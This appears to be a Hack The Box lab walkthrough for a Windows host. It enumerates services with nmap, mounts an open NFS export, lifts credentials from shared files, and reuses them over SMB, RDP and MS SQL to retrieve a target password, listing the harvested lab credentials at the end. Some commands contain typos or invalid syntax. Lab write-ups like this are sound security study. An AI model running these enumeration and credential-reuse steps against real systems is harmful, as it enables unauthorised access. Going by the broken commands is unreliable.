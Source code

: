 ----

First enumerate services on the target

```bash
sudo nmap -sS -sV <target> --disable-arp-ping -n
```

**PORT     STATE SERVICE       VERSION**
**111/tcp  open  rpcbind?**                    
**135/tcp  open  msrpc         Microsoft Windows RPC**
**139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn**
**445/tcp  open  microsoft-ds?**
**2049/tcp open  mountd        1-3 (RPC #100005)**
**3389/tcp open  ms-wbt-server Microsoft Terminal Services**
**Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows** 

We see that the server hosts a NFS (**port 111 and port 2049**) Samba service (**port 445**) and has RDP (**port 3389**) open.

We start by checking if we can mount the NFS to our local system.

```bash
shouwmount -e <target>
```

The results were positive

```
Export list for 10.129.72.190:
/TechSupport (everyone)
```

So we proceed to mount the NFS

```bash
mkdir targetNfs
sudo mount -t nfs <target>:/ ./targetNfs -o nolock
```

The mount contained a text file in the `/Techsupport` directory. From this text file we uncovered the following credentials `alex`:`lol123!mD` 

Next we unmount the NFS
```bash
unmount -e 
```

With these credentials we can try to log into the Samba share and list the shares.

```bash
smbclient -L alex //<target>
```

```                                                 
        Sharename       Type      Comment                                          
        ---------       ----      -------                                         
        ADMIN$          Disk      Remote Admin                                    
        C$              Disk      Default share                                   
        devshare        Disk                                                      
        IPC$            IPC       Remote IPC                                      
        Users           Disk
Reconnecting with SMB1 for workgroup listing.  
```
We see there is a devshare. To access this share we use the following command

```bash
smbclient -U alex //<target>/devshare
```

This share contained a text file which we downloaded wit the `GET`. This text file contained the following credentials `sa`:`sll87N1ns@s83`. These look like SystemAdmin credentials.

With the username and password from alex we can try to setup an RDP connection the the target.
```bash
xfreerdp /u:alex /v:10.129.72.190
```

On alex's desktop we see  Microsoft SQL Server Management Studio 18. We open this as Administrator with the credentials from the `sa` user. 
In the `Databases` folder we see an `accounts` database.
The `accounts` database has a `devsacc` table. 

To get the password from the `HTB` user, I made the following query.

```sql
use accounts;

SELECT password
from devsacc
WHERE name = 'HTB'
```

The query gave the password, `lnch7ehrdn43i7AoqVPK4zWR` as result.

### Users
---
alex:lol123!mD
sa:sll87N1ns@s83
htb:lnch7ehrdn43i7AoqVPK4zWR